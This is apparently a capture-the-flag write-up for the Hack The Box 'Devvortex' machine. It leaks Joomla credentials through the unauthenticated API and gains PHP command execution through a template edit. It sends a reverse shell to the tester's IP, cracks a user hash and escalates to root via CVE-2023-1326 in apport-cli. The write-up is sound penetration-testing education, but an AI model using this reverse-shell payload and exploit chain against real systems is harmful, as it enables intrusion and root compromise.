## Overview

Devvortex is an easy Linux box built around a Joomla site. The path:

- Find a hidden `dev` subdomain, then leak Joomla credentials from its unauthenticated API
- Log into the Joomla admin console and edit a template file to get PHP code execution as `www-data`
- Dump Joomla's user table from MySQL, crack `logan`'s bcrypt hash, and SSH in
- Abuse `sudo apport-cli` (CVE-2023-1326) with a crafted crash report to get a root shell

**Tools:** nmap · gobuster · wfuzz · curl · john · mysql client · sudo · apport-cli

## Recon

```
nmap -p- -sCV -oN nmapscan 10.10.11.242
```



Only SSH (22) and nginx (80) are exposed. Port 80 redirects to `devvortex.htb`, so add that to `/etc/hosts`.

## Enumeration: the main site

Nothing unusual from directory scanning. The checklist I ran against `devvortex.htb`:

- Website source code
- Directory scan
- `robots.txt`, `sitemap.xml`
- nikto and wpscan (it isn't WordPress)



## Enumeration: subdomains

Fuzz the `Host` header against the top 5000 subdomains. The response size of the default page is `290`, so filter that out:

```
wfuzz -c -f sub-fighter -w subdomains-top1million-5000.txt -u 'http://devvortex.htb/' \
  -H "Host: FUZZ.devvortex.htb" --hw 290 > subdomain_fuzz
```

It finds `dev`:



Add it to `/etc/hosts`:



## Enumeration: dev.devvortex.htb

Directory scan on the dev subdomain:

```
gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --threads 20
```



`robots.txt` lists the Joomla folders:



The `/api/` endpoint answers an empty POST, and the response header gives it away as the Joomla API:

```
curl -X POST http://dev.devvortex.htb/api/ -d "" -v
```



Joomla's API exposes the site configuration to unauthenticated requests when `public=true` is set. The configuration includes database credentials, and here the `lewis` account's password is in the response:

```
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | python3 -m json.tool > response.json
```



Credentials: **`lewis:P4ntherg0t1n5r3c0n##`**

The admin console is at `/administrator/`, and these credentials log in:





## Foothold: template code execution

Two attempts to get code execution failed:

- Creating a custom RCE extension. The format was wrong, and even an extension pulled from GitHub errored.
- Adding `php` to the **Allowed Extensions** list so a shell could be uploaded to `/media`. This didn't work either.



The approach that worked is to edit a template file. In **System → Templates**, open the Cassiopeia template's `error.php` and add a command handler:



Confirm execution with `id`:



Then send a reverse shell through the same parameter:

```
http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.12%22%2C4444%29%3Bsystem%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```



```
nc -lvnp 4444
```



## Lateral movement: MySQL to logan

`netstat` shows MySQL listening only on localhost:

```
netstat -tupln
```



The `lewis` password from the API also works for the database, and the Joomla config JSON tells you which database and table prefix to use:

```
mysql -h localhost -u lewis -p joomla
```





The Joomla tables use the `sd4fg_` prefix, so the users table is `sd4fg_users`:





Crack `logan`'s bcrypt hash with John and the rockyou wordlist:

```
john --wordlist=~/Desktop/tools/rockyou.txt hash.txt
```



Credentials: **`logan:tequieromucho`**

SSH in as `logan`:

```
ssh logan@10.10.11.242
```





## Privilege escalation: apport-cli

`sudo -l` shows that `logan` can run `apport-cli` as root:

```
sudo -l
```



The version is 2.20.11, which is affected by [CVE-2023-1326](https://www.cvedetails.com/cve/CVE-2023-1326/): when run as root, `apport-cli` shows the report in a pager, and escaping that pager gives a shell as root.



The exploit needs a crash report in `/var/crash`. Create one with the crash file from [DonnchaC's apport exploitation repo](https://github.com/DonnchaC/ubuntu-apport-exploitation) and place it at `/var/crash/blah.crash`. Then run:

```
sudo /usr/bin/apport-cli -c /var/crash/blah.crash
```

Choose `V` to view the report. The report opens as root, and the result is a root prompt:





## References

- [CVE-2023-1326 PoC — diego-tella](https://github.com/diego-tella/CVE-2023-1326-PoC?tab=readme-ov-file)
- [Ubuntu apport exploitation — DonnchaC](https://github.com/DonnchaC/ubuntu-apport-exploitation/tree/master)
- [CVE-2023-1326 — CVE Details](https://www.cvedetails.com/cve/CVE-2023-1326/)
- [Joomla statistics API — HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#joomla-statistics)
